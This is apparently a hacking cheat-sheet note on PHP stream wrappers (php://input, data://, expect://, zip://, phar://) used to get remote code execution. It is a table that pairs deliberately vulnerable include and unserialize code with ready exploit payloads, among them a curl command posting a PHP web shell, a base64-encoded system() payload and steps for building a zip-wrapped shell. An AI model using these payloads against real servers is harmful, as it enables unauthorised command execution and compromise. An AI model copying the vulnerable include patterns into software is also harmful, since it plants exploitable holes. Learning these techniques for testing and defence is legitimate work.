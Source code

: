 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/data-wrapper/php-data-wrapper/","noteIcon":"","created":"2025-04-15T14:11:19.598-04:00"}
---
```



















**1. PHP Wrappers Leading to RCE**

PHP wrappers are stream wrappers that provide access to various protocols and encapsulate operations on them. Misuse or improper validation when using these wrappers can lead to security vulnerabilities, including RCE.


|**Wrapper**|**Description**|**Exploitation Example**|
|---|---|---|
|**`php://input`**|Accesses raw POST data.|**Vulnerable Code:**`include('php://input');`**Exploit:**`curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/vulnerable.php?cmd=id"`|
|**`data://`**|Embeds base64-encoded data in PHP.|**Vulnerable Code:**`include($_GET['page']);`**Exploit:**`http://target.com/vulnerable.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id`|
|**`expect://`**|Executes system commands via process interaction.|**Vulnerable Code:**`include($_GET['page']);`**Exploit:**`http://target.com/vulnerable.php?page=expect://id`|
|**`zip://`**|Reads files inside ZIP archives.|**Vulnerable Code:**`include($_GET['file']);`**Exploit:**Create a ZIP containing a PHP shell:`echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.zip shell.php`Trigger RCE:`http://target.com/vulnerable.php?file=zip://shell.zip%23shell.php&cmd=id`|
|**`phar://`**|Exploits PHAR deserialization for RCE.|**Vulnerable Code:**`$data = unserialize(file_get_contents('phar://'.$_GET['file']));`**Exploit:**Create a malicious PHAR:`php -d 'phar.readonly=0' create_phar.php`Trigger RCE:`http://target.com/vulnerable.php?file=malicious.phar`|


